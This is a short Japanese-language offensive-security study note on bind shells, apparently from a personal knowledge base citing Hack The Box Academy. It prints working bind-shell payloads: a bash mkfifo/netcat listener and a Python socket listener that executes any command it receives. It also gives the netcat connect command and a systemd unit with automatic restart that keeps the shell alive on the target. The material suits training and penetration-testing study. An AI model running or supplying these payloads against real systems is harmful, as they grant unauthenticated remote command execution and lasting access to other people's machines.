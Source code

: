 ```yaml
---
tags:
  - Offensive
---
```


# Bind Shell

エクスプロイトを実行して、攻撃対象のマシンに侵入またはリモートコードを実行できるとき、攻撃対象のマシンでコマンドを実行して、リッスン状態にさせる。そうすることで、自分のマシンからシェルに接続できる。

[[ReverseShell]]の逆。

攻撃対象のマシンでシェルが閉じられた場合、すぐに切れてしまうのが弱点。そうなった場合、またエクスプロイトを実行してやり直す必要がある。その対策として、サービスとして自動で起動させる方法もある。

## 攻撃対象のマシンで実行するコマンド例

[PayloadsAllTheThings](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Bind%20Shell%20Cheatsheet.md)

IPアドレス`0.0.0.0`をリッスンすることで任意のIPからの接続を受け付ける。

- bash
```bash
rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/bash -i 2>&1|nc -lvp 1234 >/tmp/f
```
```python
python -c 'exec("""import socket as s,subprocess as sp;s1=s.socket(s.AF_INET,s.SOCK_STREAM);s1.setsockopt(s.SOL_SOCKET,s.SO_REUSEADDR, 1);s1.bind(("0.0.0.0",1234));s1.listen(1);c,a=s1.accept();\nwhile True: d=c.recv(1024).decode();p=sp.Popen(d,shell=True,stdout=sp.PIPE,stderr=sp.PIPE,stdin=sp.PIPE);c.sendall(p.stdout.read()+p.stderr.read())""")'
```

## 接続

[[NetCat]]を使って接続できる。
```shell-session
nc <IP> <ポート>
```

## サービスの例

- .serviceファイル
```service
[Unit]
Description=<サービの説明>

[Service]
ExecStart=/bin/bash <サービスのshファイル>
Restart=always
RestartSec=3

[Install]
WantedBy=multi-user.target
```
- サービスを起動
```
systemctl enable <サービス名>
```



---

## 参照

1. https://academy.hackthebox.com/module/77/section/725